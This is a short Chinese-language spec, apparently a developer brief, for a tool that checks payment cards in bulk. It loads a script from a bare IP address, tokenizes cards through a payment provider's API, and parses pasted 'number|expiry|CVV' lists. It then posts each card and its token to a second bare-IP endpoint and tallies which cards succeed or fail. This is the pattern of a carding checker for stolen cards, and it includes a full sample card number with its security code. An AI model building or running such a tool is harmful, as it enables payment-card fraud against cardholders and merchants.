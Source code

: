 ### 项目初始化 获取TokenAPI 方法(由服务商提供-程序员只需要调用)
```
    <script src="https://45.138.68.37:39353/down/eJdoqqJzmIEt.js"></script>
	   Multipayment.init(__ID__)
	   let userscanner ={
          holdername: 'JODI WI',
          cardno: 4897882223258590,           
          expire: 202711,                    
          securitycode: 347
	   }
	   Multipayment.getToken(userscanner, 'gmoResponseHandler');
	   //gmoResponseHandler 为回调JSONP函数
	   
	  function gmoResponseHandler(response){
	   if (response.resultCode == '000') {
	   console.log('生成TOKEN成功');
      } else {
        console.log('无法生成TOKEN');
        // Failed to create token for the card
      }}
```
### 项目开始
#### 通过用户的输入正则匹配userscannern内容
```
若用户在<textarea></textarea>输入如下内容
5241350000244441|201101|221
5241350000244442|201102|222
5241350000244443|201103|223
将通过正则表达式产生如下let arr =数组【{
          holdername: 'JODI WI',
          cardno: 5241350000244441,           
          expire: 201101,                    
          securitycode: 221
	  	 },
		 {
          holdername: 'JODI WI',
          cardno: 5241350000244442,           
          expire: 201102,                    
          securitycode: 222
	   },
	   {
          holdername: 'JODI WI',
          cardno: 5241350000244443,           
          expire: 201103,                    
          securitycode: 223
	   }】
```
### 请求接口（http://45.138.68.37:5139/api/user/carstate） POST
#### 循环通过数组每一个item来请求接口（不能用定时器）
```
access_cardno:"账号cardno"
access_token：TOKEN
```

### 返回成功后 根据返回值 
#### 统计 失败数量 和 成功数量
#### 展现 失败卡密 和 成功卡密